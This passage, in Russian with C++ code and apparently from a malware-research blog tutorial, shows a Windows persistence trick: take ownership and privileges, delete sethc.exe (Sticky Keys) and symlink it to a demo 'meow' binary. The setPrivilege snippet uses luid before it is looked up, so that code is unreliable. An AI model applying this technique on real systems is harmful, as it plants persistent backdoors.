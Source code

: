 ```cpp
  printf("original file deleted successfully\n");
  CloseHandle(hFile);

  // create the symbolic link
  if (!CreateSymbolicLinkA((LPCSTR)legitApp, (LPCSTR)meowApp, 0)) {
    printf("error creating symlink: %d\n", GetLastError());
    return 1;
  }
  printf("symlink to meow created successfully =^..^=\n");
  return 0;
}
```

но на самом деле все немного сложнее.   

Допустим, у нас есть "вредоносная программа":

```cpp
/*
* hack.c
* "malware" for symlink
* persistence trick
* author: @cocomelonc
* https://cocomelonc.github.io/malware/2024/07/08/malware-pers-25.html
*/
#include <windows.h>

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

И я хочу создать символическую ссылку, целевое легитимное приложение:

```powershell
const char* legitApp = "C:\\Windows\\System32\\sethc.exe";
```

Прежде всего, нам нужны разрешения:

```cpp
SE_TAKE_OWNERSHIP_NAME
SE_DEBUG_NAME
SE_RESTORE_NAME
SE_BACKUP_NAME
```

Для этого просто используем функцию `setPrivilege`:

```cpp
// set privilege
BOOL setPrivilege(LPCTSTR priv) {
  HANDLE token;
  TOKEN_PRIVILEGES tp;
  LUID luid;
  BOOL res = TRUE;

  tp.PrivilegeCount = 1;
  tp.Privileges[0].Luid = luid;
  tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

  if (!LookupPrivilegeValue(NULL, priv, &luid)) res = FALSE;
  if (!OpenProcessToken(GetCurrentProcess(), 
  TOKEN_ADJUST_PRIVILEGES, &token)) res = FALSE;
  if (!AdjustTokenPrivileges(token, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), 
  (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) res = FALSE;
```